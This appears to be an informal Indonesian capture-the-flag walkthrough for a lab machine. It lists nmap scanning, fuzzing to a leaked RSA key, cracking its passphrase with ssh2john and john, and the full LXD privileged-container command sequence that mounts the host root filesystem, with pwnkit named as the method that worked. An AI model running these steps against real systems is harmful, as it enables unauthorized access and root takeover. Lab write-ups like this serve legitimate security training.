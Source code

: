 # boot:
1. scan nmap 22 80 kebuka -> next fuzz
2. ada dir robot yang ada /upload disitu ada wordlist ambil aja dict.ls itu
3. next di fuzz ada /secret isinya rsa priv key 
4. next di halaman utama di source code ada pesan buat john jadi usernya mungkin john
5. ssh -i rsa john@ip -> butuh passphrase -> ssh2john rsa > rsa.hash -> john rsa.hash --wordlist=dist.ls.tadi
6. gas ssh kesana chmod 600 jan lupa 
7. klaim flag

# pe:
1. di /opt gada bash history gada di linpeas ada sih pwnkit tapi ada di vuln lxd
2. download aja https://github.com/saghul/lxd-alpine-builder 
3. wget yang zip itu dari python server -> terus gini
4. lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
5. lxc image list -> kek docker kah ini
6. lxc init myimage ignite -c security.privileged=true
7. lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
8. lxc start ignite
9. lxc exec ignite /bin/bash
10. dan akhirnya gagal dan aku pakai pwnkit
11. klaim root
